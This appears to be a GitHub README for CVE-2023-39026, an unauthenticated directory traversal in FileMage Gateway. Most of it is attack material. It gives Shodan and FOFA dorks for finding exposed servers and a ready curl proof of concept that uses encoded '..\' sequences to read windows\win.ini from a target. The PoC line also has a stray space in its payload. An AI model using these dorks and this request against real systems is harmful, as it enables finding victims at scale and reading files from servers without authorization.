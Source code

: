 # CVE-2023-39026

![](https://img.shields.io/static/v1?label=Product&message=FileMage%20Gateway&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=v.1.10.8%20and%20before&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=Unauthenticated%20Directory%20Traversal&color=red)

For the full writeup, click [here](https://raindayzz.com/technicalblog/2023/08/20/FileMage-Vulnerability.html).

- Shodan dork:
```
http.favicon.hash:"-209293751"
```
- FOFA dork:
```
icon_hash="-209293751"
```

### Curl PoC
```
curl -k -X 'GET' "http://target_ip_address:port/mgmnt/..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5 cwindows%5cwin.ini"
```

